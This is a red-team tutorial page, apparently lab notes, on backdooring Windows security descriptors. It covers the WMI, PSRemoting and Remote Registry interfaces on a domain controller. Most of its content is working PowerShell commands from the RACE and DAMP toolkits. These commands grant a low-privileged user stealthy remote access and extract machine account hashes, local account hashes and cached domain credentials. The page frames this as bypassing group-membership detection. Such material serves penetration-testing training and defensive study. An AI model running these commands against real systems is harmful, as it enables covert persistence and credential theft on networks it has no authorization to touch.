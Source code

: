 # Security Descriptors

Red teamers can exploit Windows security descriptors (SDs) to establish **stealthy, privilege-independent access to remote management interfaces** such as WMI, PSRemoting, and the Remote Registry. These descriptors control who can access and interact with system objects, including remote services. By **modifying the Discretionary Access Control List (DACL)** of these interfaces using a privileged account, it's possible to **grant access to a low-privileged or compromised user without altering group memberships or raising alarms**.

Windows represents these permissions using the Security Descriptor Definition Language (SDDL), which structures access control entries (ACEs) in the following format:

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

For offensive purposes, the key component is the `account_sid` — replacing or appending a compromised user’s SID into the descriptor grants that user access. This technique allows backdoor persistence that bypasses typical group membership detection.

## **WMI**

When a user authenticates to a system via WMI, two components enforce permissions: the DCOM security descriptor (viewable in Component Services) and the WMI namespace descriptor (modifiable via WMI Control under Services and Applications). Both must be adjusted for successful access. These can be modified remotely using the [RACE toolkit](https://github.com/samratashok/RACE):

{% code overflow="wrap" %}
```powershell
# On local machine
Set-RemoteWMI -SamAccountName student337 -Verbose

# On remote machine without explicit credentials
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# On remote machine with explicit credentials
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```
{% endcode %}

This modifies both the WMI namespace and DCOM ACLs to include the SID of `student337`, granting them WMI query and execution rights. This user can then run WMI queries without having administrative rights:

```powershell
# Access the target via WMI
Get-WmiObject -Class Win32_OperatingSystem -ComputerName dcorp-dc
```

The permissions can be cleaned up:

{% code overflow="wrap" %}
```powershell
# Remove permissions on remote machine
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -namespace 'root\cimv2' -Remove -Verbose
```
{% endcode %}

## **PSRemoting**

{% hint style="danger" %}
This method is not stable post-August 2020 → **sometimes it crashes the WinRM service**!
{% endhint %}

PowerShell Remoting, backed by WinRM, is secured through session configurations — specifically the `microsoft.powershell` configuration accessed via `Get-PSSessionConfiguration`. Access is controlled by its security descriptor. Like WMI, this can be altered to include a low-privileged user.

The ACL of `microsoft.powershell` can be read on the UI as follows:

```powershell
Set-PSSessionConfiguration -Name microsoft.powershell -ShowSecurityDescriptorUI
```

Running `Set-RemotePSRemoting` with the target username and computer name modifies the underlying ACL, giving the user WinRM access. Even if the command returns an error due to transport issues, the change is typically still applied:

{% code overflow="wrap" %}
```powershell
# On local machine
Set-RemotePSRemoting -SamAccountName student337 -Verbose

# On remote machine without credentials (the error is expected, it just means that the remote machine did not terminate the connection gracefully)
> Set-RemotePSRemoting -SamAccountName dcorp\student337 -ComputerName dcorp-dc -Verbose
[dcorp-dc] Processing data from remote server dcorp-dc failed with the following error message: The I/O operation has been aborted because of either a thread exit or an application request. For more information, see the about_Remote_Troubleshooting Help topic.
    + CategoryInfo          : OpenError: (dcorp-dc:String) [], PSRemotingTransportException
    + FullyQualifiedErrorId : WinRMOperationAborted,PSSessionStateBroken

# Remopve the permissions from the remote machine
Set-RemotePSRemoting -SamAccountName dcorp\student337 -cn dcorp-dc -Remove
```
{% endcode %}

Once the descriptor includes the user’s SID, they can open an interactive session without being a member of the `Remote Management Users` group:

```powershell
Enter-PSSession dcorp-dc
```

## **Remote Registry**

Remote Registry is a Windows service that enables **remote access to the registry over the network via RPC**. When running, it allows reading and writing to critical hives like SAM and SECURITY without shell access.&#x20;

By modifying registry ACLs to include a user’s SID—using tools like RACE or [DAMP](https://github.com/HarmJ0y/DAMP/tree/master)—non-admin users can gain access to sensitive data such as local hashes, cached credentials, or the machine account hash. This provides a **stealthy method for credential extraction and persistence**. Though often **disabled by default**, it may be active in enterprise environments for legacy management. Unlike WinRM or WMI, it **offers no code execution but enables silent post-exploitation**.

```powershell
# Assign remote registry access to the target user
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student337 -Verbose

# Retrieve machine account hash (and continue with a ST attack!)
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```
